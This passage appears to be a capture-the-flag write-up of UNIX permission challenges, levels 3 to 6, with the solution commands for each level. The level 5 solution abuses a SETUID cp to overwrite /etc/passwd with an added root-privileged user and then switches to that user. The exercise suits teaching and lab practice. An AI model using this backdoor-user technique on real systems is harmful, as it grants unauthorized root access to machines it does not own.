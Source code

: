#### level3
> Flag owned by you with different permissions

```shell
In this challenge you will work with different UNIX permissions on the flag.
The flag file will be owned by you and have 000 permissions.

Before:
-r-------- 1 root root 58 Sep  1 07:36 /flag
After:
---------- 1 hacker root 58 Sep  1 07:36 /flag

$ chmod 777 /flag
$ cat /flag
```

#### level4
> How does SETUID work?

```shell
In this challenge you will work understand how the SETUID bit for UNIX permissions works.
What if /bin/cat had the SETUID bit set?

Before:
-rwxr-xr-x 1 root root 43416 Sep  5  2019 /bin/cat
After:
-rwsr-xr-x 1 root root 43416 Sep  5  2019 /bin/cat

$ cat /flag
```

#### level5
> How does SETUID and cp work?

```shell
In this challenge you will work understand how the SETUID bit for UNIX permissions works.
What if /bin/cp had the SETUID bit set?
Hint: Look into how cp will deal with different permissions.
Another Hint: check the man page for cp, any options in there that might help?

Before:
-rwxr-xr-x 1 root root 153976 Sep  5  2019 /bin/cp
After:
-rwsr-xr-x 1 root root 153976 Sep  5  2019 /bin/cp

$ cat /etc/passwd > passwd
$ openssl passwd -1 -salt z hack
$ echo "hack:$1$z$eN1X4Y0BpzcYM5USaVCR.0:0:0::/root:/bin/shell" >> passwd
$ cp passwd /etc/passwd
$ su - hack
$ cat /flag
```

#### level6
> Flag owned by a different group
